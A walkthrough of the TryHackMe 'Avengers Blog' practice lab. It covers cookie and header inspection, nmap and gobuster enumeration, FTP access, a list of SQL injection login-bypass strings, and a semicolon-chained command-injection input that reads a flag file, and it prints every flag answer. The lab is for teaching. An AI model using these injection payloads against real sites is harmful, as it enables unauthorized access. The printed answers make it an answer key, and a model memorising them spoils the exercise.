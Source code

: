 # Avengers Blog Wlakthrough
### Link
- https://tryhackme.com/room/avengers
------------------------
### Task 1 : Deploy
- Follow instructions
------------------------
### Task 2 - Cookies
- On the deployed Avengers machine you recently deployed, get the flag1 cookie value.
    - Open Web developer tools
    - If you work with Firefox
        - Select Storage
        - Cookies
        - Picture: [Avengers_Blog_2.png]https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_2.png
    - If you work with Google Chrome
        - Select Application
        - Under Storage , select Cookies
        - Picture: [Avengers_Blog_1.png]https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_1.png
- **Answer** : cookie_secret
---------------------------
### Task 3 - HTTP Header
- Look at the HTTP response headers and obtain flag 2
- Always under Developer tools
    - Firefox
        - Network tab
        - Refresh the page
        - On the left panel, select the first GET request
        - On the left panel, select the tab Header
        - Scroll down and find flag2
        - Picture: [Avengers_Blog_3.png]https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_3.png

        - Google Chrome
            - Network tab
            - On the left panel, select the first request (should be materialize by the IP)
            - On the right panel,  select Headers tab
            - Find flag 2
            - Picture: [Avengers_Blog_4.png]https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_4.png
- **Answers** : headers_are_important
---------------------------
### Task 4 - Enumeration
Look around the FTP share and read flag 3!
- Perform Nmap
    - sudo nmap -sC -sV -oN ./Avengers_Blog_Namp_result [IP]
    - Picture: [Avengers_Blog_5.png]https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_5.png
- FTP is opened. THM platform provides the access credentials: username (groot) and a password (iamgroot)
    - Log to the FTP
    - Navigate and find flag3.txt
    - Download flag3.txt
        - get flag3.txt
        - quit
    - Consult flag3.txt
        - cat flag3.txt
    - Picture: [Avengers_Blog_6.png]https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_6.png
- **Answers** : 8fc651a739befc58d450dc48e1f1fd2e
---------------------------
### Task 5 - Gobuster
- What is the directory that has an Avengers login?
- Gobuster command
    - sudo gobuster dir -u http://[IP] -w [Wordlist path]/directory-list-2.3-medium.txt
    - One interesting result: /portal (Status: 200)
    - Let's try this
- Picture: [Avengers_Blog_7.png]https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_7.png
- ** Answers ** : /portal
---------------------------
### Task 6 - SQL Injection
-  Log into the Avengers site. View the page source, how many lines of code are there?
    - Based on the indication from TryHackMe, the portal is vulnerable to SQL injection. Before to try automatic tool such as BurpSuite, let's try some basic SQL Injection
    >' or "
    >-- or #
    >' OR '1
    >' OR 1 -- -
    >" OR "" = "
    >" OR 1 = 1 -- -
    >' OR '' = '
    >' OR 1 = 1 --   (correct pattern)
    - Picture: [Avengers_Blog_8.png]https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_8.png
    - Check the source page
    - ** Answers ** : 223
---------------------------
### Task 7 - Remote code execurtion and linux
- Read the contents of flag5.txt
- Some command are authorize but not all. For example : ls , cd
    - cd ..;ls;tac flag5.txt
- Picture: [Avengers_Blog_9.png]https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_9.png
- ** Answers ** : d335e2d13f36558ba1e67969a1718af7

